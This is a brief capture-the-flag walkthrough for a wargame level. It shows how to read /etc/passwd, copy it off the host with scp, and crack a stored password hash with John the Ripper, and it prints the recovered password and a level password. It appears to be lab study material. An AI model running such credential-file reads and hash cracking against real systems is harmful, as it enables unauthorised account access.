 # Level 01

## Password
> x24ti5gi3x0ol2eh4esiuxias

## Steps

1. ```cat /etc/passwd```
   - > flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
2. ```scp -P4242 level00@<ip>:/etc/passwd .```
3. ```john passwd```
   - > abcdefg

## Tips
You might need to delete john's cache with ```rm ~/.john/john.pot```

